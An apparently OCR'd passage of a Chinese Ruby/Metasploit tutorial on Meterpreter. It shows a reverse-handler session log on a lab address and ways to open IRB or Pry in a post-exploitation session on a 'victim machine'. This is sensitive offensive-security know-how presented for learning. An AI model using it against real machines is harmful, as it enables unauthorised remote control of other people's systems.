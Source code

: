 # Meterpreter

来自官方[wiki](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter)，Meterpreter是Metasploit自2004年以来的一个高级负载。最初由Matt "skape" Miller编写，数十位贡献者提供了额外的代码，该负载继续作为Metasploit开发的一部分经常更新。

Meterpreter是一个负载框架，提供API与之交互，通过编写脚本和插件来增加其功能。您可以在`metasploit-framework/scripts/meterpreter`中找到Meterpreter脚本，这些脚本可在后期利用中使用**run**（例如getuid、getsystem、migrate、scraper等）。Meterpreter源代码位于`metasploit-framework/lib/rex/post/meterpreter`。

实际上，您无法想象Meterpreter的强大之处，直到阅读其[愿望清单和功能](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Wishlist)，而不仅仅是使用它。

要开始，让我们在受害者机器上获得一个Meterpreter shell，以便开始内联练习，然后我们可以编写一些脚本

一旦获得Meterpreter shell，请输入`irb`以进入ruby的IRB。大多数所需模块已经加载。然后输入`require 'irb/completion'`以支持IRB控制台的自动补全，就像下面的例子一样

```
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.0.18:4444 
[*] Starting the payload handler...
[*] Sending stage (957486 bytes) to 192.168.0.18
[*] Meterpreter session 1 opened (192.168.0.18:4444 -> 192.168.0.18:33603) at 2015-11-22 06:33:00 +0300

meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the Meterpreter client

>> require 'irb/completion'
=> true 
```

如果您想使用`Pry`而不是`irb`，请键入`pry`并使控制台更易读。个人更喜欢`pry`

```
meterpreter > pry
_pry_.prompt = proc { "-> " } 
```

正如你所看到的，你已经被放到了一个名为`client`的实例变量的IRB控制台中，该实例变量是正在运行的Meterpreter的一部分。

试试这个作为一个开始

```
print_good("Rubyfu!") 
```

+   列出与`client`实例关联的所有方法

这将返回一个数组。

```
puts client.methods.sort 
```

让我们来检查一些有趣的方法。
